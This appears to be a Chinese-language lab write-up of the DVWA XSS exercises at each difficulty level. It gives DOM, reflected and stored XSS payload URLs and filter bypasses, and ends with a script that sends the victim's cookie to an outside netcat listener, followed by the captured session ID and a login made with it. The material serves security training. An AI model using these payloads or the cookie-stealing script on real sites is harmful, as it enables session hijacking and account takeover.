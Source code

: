 # 1 xss dom

## low

![image-20250827190958150](images/image-20250827190958150.png)

#### default有可能是个传参点

```
http://8.148.75.207:55/vulnerabilities/xss_d/?default=%3Cscript%3Ealert(1)%3C/script%3E
```

![image-20250827191016233](images/image-20250827191016233.png)



## mid

```
http://8.148.75.207:55/vulnerabilities/xss_d/?default=%3Cimg%20src=#%20onerror=alert(1)%3E
```

![image-20250827191529384](images/image-20250827191529384.png)



## high

```
http://8.148.75.207:55/vulnerabilities/xss_d/?default=Spanish#%3Cscript%3Ealert(1)%3C/script%3E
```

![image-20250827191803204](images/image-20250827191803204.png)



# xss(reflected)

## low

```
http://8.148.75.207:55/vulnerabilities/xss_r/?name=%3Cscript%3Ealert(1)%3C/script%3E
```

![image-20250827192026124](images/image-20250827192026124.png)

## mid

```
http://8.148.75.207:55/vulnerabilities/xss_r/?name=%3Cscr%3Cscript%3Eipt%3Ealert(1)%3C/script%3E
```

![image-20250827192133605](images/image-20250827192133605.png)

## high

```
http://8.148.75.207:55/vulnerabilities/xss_r/?name=%3Cimg%20src%20=%201%20onerror%20=%20alert(1)%3E#
```

![image-20250827192617660](images/image-20250827192617660.png)



# xss stored

## low

![image-20250827192856383](images/image-20250827192856383.png)

![image-20250827193003798](images/image-20250827193003798.png)

![image-20250827193027523](images/image-20250827193027523.png)

每次进入网站会弹出来

![image-20250827193058995](images/image-20250827193058995.png)



## mid

##### 删除low的记录

![image-20250827193159912](images/image-20250827193159912.png)

同样先修改字符限制，在写入XSS代码,<script>标签被过滤了

![image-20250827193352011](images/image-20250827193352011.png)

双写解决

```
<scri<script>pt>alert(1)</script>
```

![image-20250827193640965](images/image-20250827193640965.png)

成功弹窗

![image-20250827193718952](images/image-20250827193718952.png)



# high

#### 删除mid记录

```

```

![image-20250827194217614](images/image-20250827194217614.png)

![image-20250827194237528](images/image-20250827194237528.png)



服务器安装nc开启监听

```
sudo apt install netcat-openbsd -y
nc -lvp 8888
```

![image-20250827194704478](images/image-20250827194704478.png)

传本机的cookie到nc机器

```

<script>new Image().src="http://13.75.42.219:8888/?output="+document.cookie;</script>

```

![image-20250827195004192](images/image-20250827195004192.png)

nc机器成功监听到cookie

![image-20250827195531542](images/image-20250827195531542.png)

获取cookie

```
GET /?output=PHPSESSID=59147pmbmgig63dgmdeubu7827;%20security=low HTTP/1.1
```



# 作业三 通过cookie登录

此时新设备登录没有密码

![image-20250827200736809](images/image-20250827200736809.png)

hackback构造cookie成功登录进去

![image-20250827204605959](images/image-20250827204605959.png)